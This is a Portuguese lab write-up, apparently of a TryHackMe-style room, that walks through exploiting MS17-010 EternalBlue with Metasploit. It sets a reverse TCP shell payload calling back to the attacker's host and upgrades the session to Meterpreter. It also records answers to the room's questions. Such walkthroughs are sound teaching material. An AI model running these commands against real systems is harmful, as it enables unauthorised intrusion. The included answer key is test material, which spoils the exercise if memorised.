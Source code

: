 2.  **Buscando e Selecionando o Exploit MS17-010:**
    ```bash
    msf6 > search ms17-010
    # Identificar o exploit eternalblue
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    ```
    * **Pergunta:** Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
        * **Resposta:** `exploit/windows/smb/ms17_010_eternalblue`

3.  **Configurando Opções do Exploit:**
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS [MACHINE_IP]
    ```
    * **Pergunta:** Show options and set the one required value. What is the name of this value? (All caps for submission)
        * **Resposta:** `RHOSTS`

4.  **Configurando o Payload (conforme instruído na sala):**
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
    ```
    *(Nota: É importante verificar se o alvo é x64. Se a sala não especificar, este é um payload comum. Também seria necessário configurar `LHOST` para o IP da AttackBox/sua máquina atacante).*

5.  **Executando o Exploit:**
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
    ```
    * **Resultado da Exploração:** Após a execução, uma shell reversa foi obtida no sistema alvo. Foi necessário pressionar Enter para o prompt aparecer.

**Task 3: Escalate (Escalar Privilégios)**

O objetivo aqui era converter a shell simples para uma sessão Meterpreter e escalar privilégios.

1.  **Background da Shell Atual:**
    Com a shell ativa, pressionei `CTRL + Z` para colocá-la em background.
    ```
    Background session 1? [y/N]  y
    ```

2.  **Buscando e Usando o Módulo `shell_to_meterpreter`:**
    ```bash
    msf6 > search shell_to_meterpreter
    msf6 > use post/multi/manage/shell_to_meterpreter
    ```
    * **Pergunta:** Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
        * **Resposta:** `post/multi/manage/shell_to_meterpreter`

3.  **Configurando Opções do Módulo de Pós-Exploração:**
    ```bash
    msf6 post(multi/manage/shell_to_meterpreter) > show options
    # Identificar a sessão da shell em background (ex: sessions -l)
    msf6 post(multi/manage/shell_to_meterpreter) > set SESSION [ID_DA_SESSAO_SHELL] 
    ```
    * **Pergunta:** Select this (use MODULE_PATH). Show options, what option are we required to change?
        * **Resposta:** `SESSION`
